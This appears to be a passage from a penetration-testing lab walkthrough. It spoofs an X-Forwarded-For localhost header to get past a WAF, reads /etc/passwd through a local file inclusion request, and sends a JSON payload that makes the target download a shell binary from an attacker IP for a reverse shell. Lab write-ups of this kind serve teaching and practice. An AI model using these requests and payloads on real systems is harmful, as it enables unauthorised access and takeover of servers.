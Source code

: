 - Accessing the /logs endpoint identifies an error message **WAF: Access Denied for this Host**
- We can assume this is restricting access to localhost
- So we need to modify our request to appear if its coming from internally

<https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Forwarded>

For this purpose we should look at **client origin** headers.

```
X-Forwarded-Host
X-Forwarded-For
X-Frame-Options
X-Content-Type-Options
X-XSS-Protection
Set-Cookie
```

![[Pasted image 20230915185209.png]]

```shell
X-Forwarded-For: 127.0.0.1
```

Now let's add the file path and try to gain a valid username.

```http
GET /logs?file=/etc/passwd HTTP/1.1

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0

X-Forwarded-For: 127.0.0.1

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Connection: close

Upgrade-Insecure-Requests: 1
```

![[Pasted image 20230915185333.png]]
`clumsyadmin`

Now let's relaunch our payload with the username and try to get a reverse shell.

```json
{"user":"clumsyadmin", "url":"http://192.168.45.215:8000/shells/shell.elf"}
```

From the output of the python server we can see that the application is retrieving the payload but we aren't getting a reverse shell back.

Let's retrieve the location of the server files from the LFI and diagnose our error.
